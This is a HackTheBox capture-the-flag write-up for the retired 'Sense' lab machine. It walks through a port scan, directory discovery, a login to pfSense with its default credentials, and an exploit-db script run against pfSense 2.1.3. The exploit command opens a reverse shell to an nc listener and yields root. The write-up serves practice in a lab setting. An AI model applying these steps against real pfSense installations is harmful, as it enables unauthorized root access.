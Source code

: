```yaml
---
title: Sense Hackthebox Writeup
date: 2020-12-28 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [linux,pfsense,dirbuster,pfsense 2.1.3]     # TAG names should always be lowercase
image: /assets/img/sense-hackthebox/sense-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Nibbles:~$


Column | Details
------------ | -------------
Name | Sense
IP | 10.10.10.60
Points | 20
Os | FreeBSD
Difficult | Easy
Creator | [lkys37en](https://www.hackthebox.eu/profile/709)
Out on | 21st October 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* Used `dirbuster` to find the hidden directories, two of them are `changelog.txt` and `system-users.txt`.
* Got `Credentials` to login to the dashboard on `port 80`
* Exploiting the `vulnerable` version of `pfSense 2.1.3`, to get Root.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/sense-hackthebox/nmap-scan-1.png)

From a `quick scan` we came to know that `2 Ports` are open i.e. `80 and 443`. On accessing port 80 we are redirected to `443 page` where we get a `login page` of *pfSense*.

___
![](/assets/img/sense-hackthebox/port-80-2.png)

Using `dirbuster` to find hidden directories. **Wordlist Used**: *directory-list-2.3-medium.txt* and **File Extension**: *php,txt,html*.

___
![](/assets/img/sense-hackthebox/dirbuster-3.png)

We got `two useful directories` which I checked out.

**Accessing**: `https://10.10.10.60:443/changelog.txt`, we can see some messages here.

___
![](/assets/img/sense-hackthebox/changelog-txt-4.png)

**Accessing**: `https://10.10.10.60:443/system-users.txt`, we got some credentials *Username*: `Rohit` and *Password*: `company defaults`. I googled about default credentials for `pfSense` and found it as **pfsense**, Hence the *password* they are talking about is `pfsense`.

___
![](/assets/img/sense-hackthebox/system-users-ticket-5.png)

Loging into the dashboard with the credentials mentioned above.

___
![](/assets/img/sense-hackthebox/pf-sesne-loggedin-8.png)

We got to know the `pfSense` version running which is `2.1.3`. I googled about the version vulnerabilities and found this:

[Exploit found](https://www.exploit-db.com/exploits/43560)

___
![](/assets/img/sense-hackthebox/exploit-db-9.png)

Dowloaded the `exploit` on my machine and ran it. *Make sure you use the username as rohit and not Rohit.*

**Exploit Command**: *python3 43560.py --rhost=10.10.10.60 --lhost=10.10.X.X --lport=1233 --username=rohit --password=pfsense*

Listening on the port specified using `nc`. We got `Root`.

___
![](/assets/img/sense-hackthebox/got-root-10.png)


